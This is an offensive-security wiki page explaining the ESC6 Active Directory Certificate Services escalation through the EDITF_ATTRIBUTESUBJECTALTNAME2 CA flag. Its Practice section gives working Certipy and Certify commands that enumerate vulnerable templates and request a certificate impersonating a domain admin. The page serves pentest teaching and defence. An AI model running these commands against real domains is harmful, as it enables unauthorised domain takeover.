 # CA configuration

## Theory

In [their research papers](https://posts.specterops.io/certified-pre-owned-d95910965cd2), [Will Schroeder](https://twitter.com/harmj0y) and [Lee Christensen](https://twitter.com/tifkin\_) found a domain escalation vector based on a dangerous CA setting (i.e. the `EDITF_ATTRIBUTESUBJECTALTNAME2` flag). The escalation vector was dubbed [ESC6](https://posts.specterops.io/certified-pre-owned-d95910965cd2#2a56).

When the flag is set on the CA, templates configured for authentication (i.e. EKUs like Client Authentication, PKINIT Client Authentication, Smart Card Logon, Any Purpose (`OID 2.5.29.37.0`), or no EKU (`SubCA`)) and allowing low-priv users to enroll can be abused to authenticate as any other user/machine/admin.

{% hint style="success" %}
The default **User** template checks all the template requirements stated above.&#x20;

If the CA is configured with the  `EDITF_ATTRIBUTESUBJECTALTNAME2` flag (admins tend to enable that flag without knowing the security implications), and the **User** template is enabled (which is very often), any user can escalate to domain admin.
{% endhint %}

## Practice

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, [Certipy](https://github.com/ly4k/Certipy) (Python) can be used to enumerate info about the CAs, including the "User Specified SAN" flag state.

```python
certipy 'domain.local'/'user':'password'@'domaincontroller' find | grep "User Specified SAN"
```

{% hint style="info" %}
By default, Certipy uses LDAPS, which is not always supported by the domain controllers. The `-scheme` flag can be used to set whether to use LDAP or LDAPS.
{% endhint %}

{% hint style="success" %}
Certipy's `auto` mode can also be used to automatically abuse a misconfigured CA.
{% endhint %}

The same "find" command can be used to enumerate information regarding the certificate templates (EKUs allowing for authentication, allowing low-priv users to enroll, etc.).

```bash
certipy 'domain.local'/'user':'password'@'domaincontroller' find
```

Once the right template is found (i.e. the default User template), a request shall be made to obtain a certificate, with another high-priv user set as SAN (`subjectAltName`).

```bash
certipy 'domain.local'/'user':'password'@'ca_server' req -ca 'ca_name' -template 'certificate template' -alt 'domain admin'
```

The certificate can then be used with [Pass-the-Certificate](../kerberos/pass-the-certificate.md) to obtain a TGT and authenticate.
{% endtab %}

{% tab title="Windows" %}
From Windows systems, the [Certify](https://github.com/GhostPack/Certify) (C#) tool can be used to enumerate info about the CAs, including the "UserSpecifiedSAN" flag state.

```batch
Certify.exe cas
```

If the flag is enabled on a CA, certify can then be used to find all enabled templates configured with EKUs allowing for authentication, and allowing low-priv users to enroll.

```batch
Certify.exe /enrolleeSuppliesSubject
Certify.exe /clientauth
```

Once the right template is found (i.e. the default **User** template), a request shall be made to obtain a certificate, with another high-priv user set as SAN (`subjectAltName`).

```batch
Certify.exe request /ca:'domain\ca' /template:"Certificate template" /altname:"admin"
```

The certificate can then be used with [Pass-the-Certificate](../kerberos/pass-the-certificate.md) to obtain a TGT and authenticate.
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://posts.specterops.io/certified-pre-owned-d95910965cd2" %}

{% embed url="https://www.keyfactor.com/blog/hidden-dangers-certificate-subject-alternative-names-sans" %}
